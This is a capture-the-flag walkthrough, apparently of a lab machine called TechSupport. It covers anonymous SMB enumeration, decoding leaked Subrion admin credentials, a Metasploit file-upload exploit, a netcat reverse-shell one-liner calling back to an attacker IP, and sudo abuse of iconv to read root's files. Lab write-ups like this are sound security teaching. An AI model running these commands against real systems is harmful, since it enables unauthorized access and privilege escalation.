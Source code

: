 ```yaml
---
aliases: []
sticker: emoji//1f469-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 139  | SMB     |
| 445  | SMB     |



# RECONNAISSANCE
---

We got `smb` enabled, let's try anonymous login:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411151007.png)

There we go, we got an interesting share, let's check the contents inside of it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411151101.png)

We got something called `enter.txt`, let's read the contents:

```
cat enter.txt

GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

We got credentials for the WordPress site, let's check the website:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411151659.png)

We can fuzz and we find this:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.224.191/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.224.191/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 165ms]
test                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 161ms]
```


If we check the `test` directory, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411151834.png)


In the `wordpress` directory, we can go to `wp-login.php` and test the credentials we got earlier:

```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411152301.png)

They don't work, seems like they are not the credentials for WordPress, other stuff we are missing is the `/subrion` directory, if we try accessing it we get this:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411152549.png)

There's a redirection, if we follow it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411152610.png)

It changes the host, seems weird, what if we try changing it back to the real host:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411152727.png)

No response still, seems like we are trying to access an invalid resource, maybe `/subrion/subrion` does not exist, we can try reading `robots.txt` and check if it works, let's change it in the base request:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411153009.png)

There we go, it does exist, we got some stuff:

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```


If we remember the message from `smb`, we can go inside of `panel` and edit the `/subrion` directory, which could mean we can use these credentials inside of the panel:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411153208.png)


```
admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk
```

But wait, there is something that needs to be done with these still, let's proceed to exploitation.



# EXPLOITATION
---

```
Subrion creds

admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

```


Let's use CyberChef with the `magic` operation, we can see the following:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411153349.png)

There we go, we got the real password:

```
admin:Scam2021
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411153512.png)

There we go, we got inside of the panel, let's check for an exploit regarding this version of `subrion`, we are dealing with `subrion 4.2.1`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411153614.png)

We got `Arbitrary File Upload`, the module is on `metasploit` so we can use it to ensure it works:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411154612.png)

There we go, we got the shell, we can migrate to `netcat` 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411154740.png)

There we go, we got our netcat shell, let's proceed with privilege escalation.



# PRIVILEGE ESCALATION
---

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411154905.png)

If we use linpeas, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411155553.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411155606.png)


```
scamsite:ImAScammerLOL!123!
```

Let's use this credentials in ssh:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411155627.png)

Let's check our sudo privileges:

```
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

We can run `iconv`, let's check it on GTFOBins:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411155740.png)

Nice, let's read `root.txt`:


```
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411160756.png)
```
scamsite@TechSupport:~$ sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250411160820.png)

